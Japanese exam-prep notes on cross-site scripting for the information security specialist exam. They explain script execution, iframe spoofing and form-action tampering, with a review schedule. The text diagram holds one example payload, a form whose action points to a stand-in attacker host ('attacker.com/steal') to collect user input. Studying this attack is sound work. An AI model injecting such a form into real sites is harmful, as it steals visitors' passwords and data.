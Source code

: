 
## １－８　要約（3行以内）

XSSでは `script` で直接コード実行、`iframe` で偽ページ埋め込み、`form action` で送信先改ざんが行われる。
狙いはCookie窃取やパスワード詐取。
試験では「script＝実行」「iframe＝偽装」「action＝送信先改ざん」と整理すると誤解しにくい。

---

## １－９　次アクション（復習間隔と演習提案）

* 翌日：SQLインジェクションとXSSの違いを比較問題で復習。
* 3日後：iframeとクリックジャッキングの関連問題を解く。
* 1週間後：form action 改ざんを含む複合問題を演習。

---

良い質問です。ここが試験で狙われやすいポイントです。整理して説明します。

---

## １　全体像（テキスト図）

```
ユーザ入力欄
   ↓（検証不備）
Webアプリにそのまま反映
   ↓
<form action="http://attacker.com/steal">
  …ユーザ入力欄…
</form>
   ↓
ユーザが正規サイト上で入力
   ↓
攻撃者サーバへ送信
```

---

## １－１　定義（IPA準拠）と用語の由来

* **クロスサイトスクリプティング（XSS）**
  　「Webアプリケーションに入力されたスクリプトを、正規サイトのページに埋め込み、利用者のブラウザで実行させる攻撃」
  （IPA：情報処理安全確保支援士試験シラバス）

* **語源**：Cross Site Scripting＝「異なるサイト間でスクリプトが実行される」ことから命名。
  　ただし、広義には「攻撃者が挿入した任意のコード（scriptだけでなくタグや属性値）を被害者ブラウザで解釈させる攻撃」を含む。

---

## １－２　技術の必要性（解決する具体的課題）

* なぜ `form action` もXSSと呼ばれるか：
  （１）攻撃ベクトルは「ユーザ入力をページに反映する処理の不備」であり、scriptタグに限らない。
  （２）ブラウザが解釈する「タグや属性」を操作する点で本質は同じ。
  （３）利用者のセッションを利用し、正規ページを経由して「攻撃者の意図通りの動作（送信）」をさせる。

---